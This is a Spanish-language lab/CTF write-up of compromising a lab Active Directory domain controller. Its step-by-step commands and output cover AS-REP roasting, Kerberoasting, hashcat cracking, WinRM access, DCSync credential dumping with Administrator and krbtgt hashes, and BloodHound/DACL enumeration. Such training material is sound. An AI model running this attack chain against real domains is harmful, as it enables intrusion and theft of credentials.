# TITANCORP — Writeup de resolución

**Laboratorio:** TITANCORP  
**Nivel:** Difícil  
**Categoría:** Pivoting & Lateral Movement  
**Autor:** chifay  
**Fecha de ejecución:** 27/10/2026  
**Objetivo:** `172.16.202.131` — `WIN-CFIU5AU7L2D.corp.local`  
**Atacante:** Kali Linux `172.16.202.129/24`  
**Resultado:** compromiso administrativo del dominio y lectura de la flag.

> **Flag:** `CPENT{t1t4n_c0rp_mult1h0p_bl00dh0und_m4st3r_2026}`

La flag se leyó directamente de `C:\Users\Administrator\Desktop\FLAG_TITANCORP_DOMAIN_ADMIN.txt` mediante WinRM. En este laboratorio no existe un validador oficial: la cadena de texto anterior es la que devolvió el fichero, sin transformación ni comprobación externa.

---

## 1. Resumen

| Hallazgo | Detalle |
|---|---|
| Controlador de dominio | `WIN-CFIU5AU7L2D.corp.local` — Windows Server 2019 Build 17763 |
| Puertos abiertos | 21 TCP, todos de Active Directory y WinRM; 22/80/443/3389 filtrados |
| AS-REP roasting | 3 cuentas: `svc_backup`, `auditor_externo`, `c.ramirez` |
| Kerberoasting | 3 cuentas: `svc_sql`, `svc_oracle`, `titan_api` |
| Crackeo | 6/6 hashes recuperados; todos con la contraseña `Password123` |
| Acceso inicial | `svc_sql:Password123` con WinRM (`Pwn3d!`) |
| DCSync | ejecutado como `svc_sql`; 29 entradas NTDS |
| Flag | leída como `titan_api` en el escritorio de Administrator |
| Ruta de diseño | `d.morales` → `Data-Analytics-Ops` → `titan_api` → `Core-Infrastructure-Admins` → `Administrators` → DC |
| Ruta ejecutada | `svc_sql` (Kerberoast) → WinRM → DCSync → `titan_api` (password) → WinRM → flag |

La diferencia entre la ruta de diseño y la ruta ejecutada se explica en la sección 5. `svc_sql` ya pertenecía a `BUILTIN\Administrators`, por lo que DCSync era un atajo válido; no fue necesario completar la cadena de ACL desde `d.morales`.

---

## 2. Reconocimiento

### 2.1. Puertos y servicios

```bash
nmap -Pn -sT -p- --min-rate 3000 -T4 \
  -oN recon/nmap-full-live.txt 172.16.202.131

nmap -Pn -sV -sC -p 22,53,80,88,135,139,389,443,445,464,593,636,3268,3269,3389,5985,9389 \
  -oN recon/nmap-services-live.txt 172.16.202.131
```

El escaneo completo mostró 65.514 puertos filtrados y 21 abiertos:

```text
53/tcp    domain           88/tcp    kerberos-sec     135/tcp   msrpc
139/tcp   netbios-ssn      389/tcp   ldap             445/tcp   microsoft-ds
464/tcp   kpasswd5         593/tcp   http-rpc-epmap   636/tcp   ldapssl
3268/tcp  globalcatLDAP    3269/tcp  globalcatLDAPssl 5985/tcp  wsman
9389/tcp  adws             49666/tcp unknown          49667/tcp unknown
49677/tcp unknown          49678/tcp unknown          49680/tcp unknown
49681/tcp unknown          49691/tcp unknown          49699/tcp unknown
```

Los puertos `22`, `80`, `443` y `3389` aparecen filtrados. No había SSH, HTTP/HTTPS ni RDP expuestos. El escaneo de versiones confirmó LDAP de Active Directory para `corp.local`, Kerberos, WinRM en `5985` y SMB con `Message signing enabled and required`.



### 2.2. DNS y LDAP

```bash
dig @172.16.202.131 ANY corp.local +noall +answer +authority

dig @172.16.202.131 SRV _ldap._tcp.dc._msdcs.corp.local +short

ldapsearch -x -H ldap://172.16.202.131 -s base -b '' '(objectClass=*)' \
  | grep -E '^(dn:|defaultNamingContext:|rootDomainNamingContext:|domainFunctionality:|forestFunctionality:|dnsHostName:|supportedLDAPVersion:|namingContexts:)'
```

Valores relevantes del rootDSE:

```text
defaultNamingContext: DC=corp,DC=local
rootDomainNamingContext: DC=corp,DC=local
dnsHostName: WIN-CFIU5AU7L2D.corp.local
domainFunctionality: 7
forestFunctionality: 7
supportedLDAPVersion: 3
namingContexts: DC=corp,DC=local
```

`domainFunctionality` y `forestFunctionality` en `7` corresponden a Windows Server 2016 o superior. El SRV de LDAP apuntó al mismo DC. La enumeración LDAP anónima permitió construir la lista de 28 usuarios usada después para AS-REP roasting (`recon/ldap/users.txt`).



### 2.3. AS-REP roasting

```bash
impacket-GetNPUsers 'corp.local/' -dc-ip 172.16.202.131 \
  -usersfile recon/ldap/users.txt -no-pass -format hashcat \
  -outputfile loot/asrep-live.txt
```

Se obtuvieron tres hashes AS-REP:

```text
$krb5asrep$23$svc_backup@CORP.LOCAL
$krb5asrep$23$auditor_externo@CORP.LOCAL
$krb5asrep$23$c.ramirez@CORP.LOCAL
```

La salida también contiene dos errores reales `KDC_ERR_CLIENT_REVOKED` para otras cuentas. No se ocultaron: simplemente no se usaron. Los tres hashes anteriores sí terminaron en el potfile.



### 2.4. Kerberoasting

```bash
impacket-GetUserSPNs 'corp.local/svc_sql:Password123' \
  -dc-ip 172.16.202.131 -request \
  -outputfile loot/kerberoast-live.txt
```

La tabla de SPNs reveló tres cuentas de servicio:

| SPN | Cuenta | Grupo / OU relevante |
|---|---|---|
| `HTTP/intranet.corp.local` | `svc_sql` | `CN=Administrators,CN=Builtin` |
| `MSSQLSvc/db01.corp.local` y `:1433` | `svc_sql` | `CN=Administrators,CN=Builtin` |
| `OracleSvc/db-prod.corp.local` y `:1521` | `svc_oracle` | `Database-Operators` |
| `MSSQLSvc/bi-cluster.corp.local:1433` | `titan_api` | `Core-Infrastructure-Admins` |
| `HTTP/api-bi.corp.local:8443` | `titan_api` | `Core-Infrastructure-Admins` |

`svc_sql` ya era miembro de `BUILTIN\Administrators`. Esa observación es la que convierte el kerberoasting de `svc_sql` en un atajo hacia DCSync. `titan_api`, por su parte, era miembro de `Core-Infrastructure-Admins`.

Los tres hashes TGS se guardaron en `loot/kerberoast-live.txt`:

```text
$krb5tgs$23$*svc_sql$CORP.LOCAL$corp.local/svc_sql*
$krb5tgs$23$*svc_oracle$CORP.LOCAL$corp.local/svc_oracle*
$krb5tgs$23$*titan_api$CORP.LOCAL$corp.local/titan_api*
```



### 2.5. Crackeo

```bash
hashcat -m 18200 --quiet --potfile-path loot/hashcat-live.pot --runtime 60 \
  loot/asrep-live.txt /usr/share/wordlists/rockyou.txt

hashcat -m 13100 --quiet --potfile-path loot/hashcat-live.pot --runtime 60 \
  loot/kerberoast-live.txt /usr/share/wordlists/rockyou.txt
```

Los seis hashes se recuperaron con `Password123`:

| Cuenta | Tipo | Contraseña |
|---|---|---|
| `svc_backup` | AS-REP | `Password123` |
| `auditor_externo` | AS-REP | `Password123` |
| `c.ramirez` | AS-REP | `Password123` |
| `svc_sql` | Kerberoast | `Password123` |
| `svc_oracle` | Kerberoast | `Password123` |
| `titan_api` | Kerberoast | `Password123` |

El potfile con las seis entradas es `loot/hashcat-live.pot`. Las capturas 07 y 08 muestran la salida de hashcat; la contraseña aparece al final de cada línea. La reutilización de la misma contraseña en cuentas de servicio y usuarios es el problema de fondo.





---

## 3. Acceso inicial y DCSync

### 3.1. WinRM como `svc_sql`

```bash
crackmapexec smb 172.16.202.131 -u svc_sql -p 'Password123'
crackmapexec winrm 172.16.202.131 -u svc_sql -p 'Password123'
crackmapexec winrm 172.16.202.131 -u svc_sql -p 'Password123' \
  -x 'net localgroup Administrators /domain'
```

`svc_sql` devolvió `Pwn3d!` tanto por SMB como por WinRM. La consulta de miembros del grupo integrado se hizo con `net localgroup`, no con `net group`: `Administrators` vive en `CN=Builtin` y `net group ... /domain` no devuelve sus miembros. La salida fue:

```text
Alias name     Administrators
Members
-------------------------------------------------------------------------------
Administrator
Core-Infrastructure-Admins
Domain Admins
Enterprise Admins
svc_sql
Tier1-Admins
The command completed successfully.
```

Además de `Administrator` y de los grupos de nivel de dominio, el grupo contiene a `Core-Infrastructure-Admins` y a `svc_sql`. Por eso `svc_sql` podía ejecutar DCSync sin pasar por la cadena de ACL de `d.morales`.



### 3.2. DCSync

```bash
impacket-secretsdump 'corp.local/svc_sql:Password123@172.16.202.131' \
  -just-dc -outputfile loot/dcsync-live
```

El volcado produjo 29 entradas NTDS. Entre ellas:

```text
Administrator:500:aad3b435b51404eeaad3b435b51404ee:88e1db77ee01e9e14dfc4dac2617f266:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:76925ef2f9cbde5770dcd94827f45629:::
corp.local\svc_sql:1105:aad3b435b51404eeaad3b435b51404ee:58a478135a93ac3bf058a5ea0e8fdb71:::
corp.local\d.morales:1125:aad3b435b51404eeaad3b435b51404ee:c5944a4b6fd2e7bd92b44fced7400ee0:::
corp.local\titan_api:1127:aad3b435b51404eeaad3b435b51404ee:58a478135a93ac3bf058a5ea0e8fdb71:::
```

No se recuperaron contraseñas en claro: el resultado fue NTDS y claves Kerberos (`loot/dcsync-live.ntds` y `loot/dcsync-live.ntds.kerberos`). En particular, de `d.morales` solo se obtuvo el hash NT `c5944a4b6fd2e7bd92b44fced7400ee0`; su contraseña en claro no fue recuperada.



### 3.3. Lectura de la flag

```bash
crackmapexec winrm 172.16.202.131 -u titan_api -p 'Password123' \
  -x 'type C:\Users\Administrator\Desktop\FLAG_TITANCORP_DOMAIN_ADMIN.txt'
```

La flag se leyó como `titan_api`, cuya contraseña se había obtenido por kerberoasting y que pertenece a `Core-Infrastructure-Admins`. El fichero también incluye un texto de contexto del laboratorio con la “Cadena Ofensiva Validada”; ese texto es material del reto, no una validación externa. La única prueba de la flag es la lectura directa del fichero.



---

## 4. Enumeración autenticada con BloodHound

```bash
/tmp/bhvenv/bin/bloodhound-python -u svc_sql -p 'Password123' \
  -d corp.local -ns 172.16.202.131 \
  -c DCOnly,ACL,ObjectProps \
  -op recon/bloodhound-live/titancorp-live
```

La recolección terminó en un segundo y devolvió:

```text
INFO: Found 29 users
INFO: Found 60 groups
INFO: Found 2 gpos
INFO: Found 10 ous
INFO: Found 21 containers
INFO: Found 1 computers
INFO: Found 0 trusts
```

El colector mostró un aviso real: no pudo resolver `win-cfiu5au7l2d.corp.local:88` para obtener un TGT y cayó a autenticación NTLM. La recolección siguió funcionando. El ZIP válido es `recon/bloodhound-live/titancorp-live-bloodhound.zip` (16 KB, 7 JSON). En la primera pasada el `--zip` automático generó un archivo vacío de 22 bytes; se repitió la recolección sin `--zip` y se empaquetaron los siete JSON sin modificarlos. La captura 12 muestra el ZIP válido y su contenido.



---

## 5. Ruta ejecutada y ruta de diseño

### 5.1. Ruta ejecutada

```text
svc_sql (Kerberoast, Password123)
   └─ WinRM (Pwn3d!)
        └─ DCSync (29 entradas NTDS)
             ├─ titan_api (Password123, Kerberoast)
             │    └─ WinRM (Pwn3d!) → lectura de la flag
             └─ d.morales (solo hash NT) → validación de ACL
```

La ruta ejecutada no pasó por `d.morales` para el acceso inicial. `svc_sql` ya estaba en `BUILTIN\Administrators`, de modo que el kerberoasting de esa cuenta y el posterior DCSync eran suficientes. La flag se leyó con `titan_api`, no con `svc_sql`; no se probó que `svc_sql` pudiera leer el fichero.

### 5.2. Ruta de diseño

```text
d.morales (Helpdesk L1)
   └─ Data-Analytics-Ops
        └─ titan_api
             └─ Core-Infrastructure-Admins
                  └─ Administrators
                       └─ Domain Controller
```

La ruta de diseño es la que describe el fichero de la flag. Lo que se validó de ella:

- `d.morales` está en `IT-Helpdesk` y en `Data-Analytics-Ops` (`loot/dmorales-groups-live.txt`).
- `IT-Helpdesk` tiene `WriteDACL` sobre `Data-Analytics-Ops`; `d.morales` tiene `FullControl` directo sobre ese grupo.
- `titan_api` está en `Data-Analytics-Ops` y en `Core-Infrastructure-Admins`.
- El DACL de `Core-Infrastructure-Admins` concede a `Administrators` `Modify, WriteOwner, WriteDACL`.
- `Core-Infrastructure-Admins` es miembro de `Administrators`.

La lectura completa del DACL de `titan_api` está en `loot/acl-titanapi-live.txt`. No contiene una ACE de `Data-Analytics-Ops`; por eso no se afirma que ese salto esté validado.

Lo que **no** se ejecutó:

- El salto `Data-Analytics-Ops` → `titan_api` no se usó para comprometer `titan_api`; esa cuenta se obtuvo por kerberoasting. La lectura del DACL de `titan_api` no contiene una ACE de `Data-Analytics-Ops` (`loot/acl-titanapi-live.txt`).
- No se completó la cadena desde `d.morales` hasta el DC. Su contraseña en claro no se recuperó; solo se usó su hash NT para validar que podía modificar `Data-Analytics-Ops`.
- La ruta ejecutada es un atajo válido, no una demostración de la cadena de diseño completa.

Esta distinción es deliberada: el informe no presenta como ejecutado un camino que solo se validó por partes.

---

## 6. Validación de la cadena ACL

### 6.1. DACL de `Data-Analytics-Ops`

```bash
impacket-dacledit 'corp.local/svc_sql:Password123' \
  -dc-ip 172.16.202.131 -target 'Data-Analytics-Ops' -action read \
  | tee loot/acl-data-analytics-live.txt
```

Entradas relevantes:

```text
ACE[2]  Access mask: WriteDACL (0x40000)
        Trustee: IT-Helpdesk (S-1-5-21-2314756761-1692085105-450277737-1121)

ACE[4]  Access mask: FullControl (0xf01ff)
        Trustee: d.morales (S-1-5-21-2314756761-1692085105-450277737-1125)
```

También aparecen `Domain Admins` y `Account Operators` con `FullControl`. El `FullControl` directo de `d.morales` es más fuerte que el `WriteDACL` de `IT-Helpdesk`; con él se puede modificar el grupo sin necesidad de escribir un DACL nuevo.



### 6.2. DACL de `Core-Infrastructure-Admins`

```bash
impacket-dacledit 'corp.local/svc_sql:Password123' \
  -dc-ip 172.16.202.131 -target 'Core-Infrastructure-Admins' -action read \
  | tee loot/acl-core-live.txt
```

La entrada relevante:

```text
ACE[21] Access mask: Modify, WriteOwner, WriteDACL (0xf01bf)
        Trustee: Administrators (S-1-5-32-544)
```

